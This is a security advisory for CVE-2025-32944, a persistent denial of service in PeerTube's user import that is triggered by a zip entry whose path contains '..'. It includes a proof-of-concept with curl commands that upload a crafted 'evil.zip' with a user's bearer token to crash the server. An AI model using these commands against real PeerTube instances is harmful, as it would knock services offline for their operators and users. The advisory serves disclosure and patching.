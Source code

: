 ```yaml
---
description: CVE-2025-32944 Medium severity. PeerTube User Import Authenticated Persistent Denial of Service
title: PeerTube User Import Authenticated Persistent Denial of Service
date_published: "2025-04-14"
last_updated: "2025-04-14"
xray_id:
vul_id: CVE-2025-32944
cvss: 6.5
severity: medium
discovered_by: Ori Hollander
type: vulnerability
---
```

## Summary
An Uncaught Exception in PeerTube can lead to a persistent Denial of Service in User Import.

This vulnerability allows any authenticated user to cause the server to stop functioning in a persistent manner.



## Component

[PeerTube](https://github.com/Chocobozzz/PeerTube)



## Affected versions

(, 7.1.0]



## Description

If user import is enabled (which is the default setting), any registered user can upload an archive for importing. The code uses the yauzl library for reading the archive.
If the yauzl library encounters a filename that is considered illegal, [it raises an exception](https://github.com/thejoshwolfe/yauzl/blob/de292f220268473eb20aef64b0a77faa9d004d9a/index.js#L737). For example, if a filename includes “..” in one of its parts, an “invalid relative path” error is raised. PeerTube does not catch this exception, thus it crashes. Even after starting the server again, it tries to read the file and crashes again, causing a permanent denial of service until the file is deleted from the system.

## PoC

This PoC assumes that there is a PeerTube instance on the machine listening on ports 3000 (client) and 9000 (server). Note that running this PoC will cause PeerTube’s server to shut down.



1. First, using a browser, log in to the PeerTube instance with any user’s credentials, and use the inspection screen to copy the authorization token of the user.
1. Create a file `evil.zip` in the current directory, which contains at least one zip entry with a `..` in its path
1. In a terminal, run the following commands (replace “user_token” with the token obtained from step #1):
```
new_location=http:$(curl -s -D - 'http://127.0.0.1:3000/api/v1/users/1/imports/import-resumable' -H 'Authorization: Bearer user_token' -H 'Content-Type: application/json; charset=UTF-8' -H 'X-Upload-Content-Length: 168' -H 'X-Upload-Content-Type: application/x-zip-compressed' --data-raw '{"name":"evil.zip","mimeType":"application/x-zip-compressed","size":168,"lastModified":1743493990068,"filename":"evil.zip"}' | awk '/^location:/{print $2}' | tr -d '\r')
curl -X PUT "$new_location" -H "Content-Type: application/octet-stream" -H "Content-Range: bytes 0-167/168" -H 'Authorization: user_token' --data-binary @evil.zip
```
If everything was done correctly, the PeerTube server will crash, and will keep crashing as long as the ZIP file is not deleted from the system.



## Vulnerability Mitigations

No mitigations are supplied for this issue



## References

[Fix release](https://github.com/Chocobozzz/PeerTube/releases/tag/v7.1.1)

[PoC Materials](https://drive.google.com/file/d/1zmXFNutT4ACOJZGmxhU22nhu9Fbn4ui2/view?usp=drive_link)
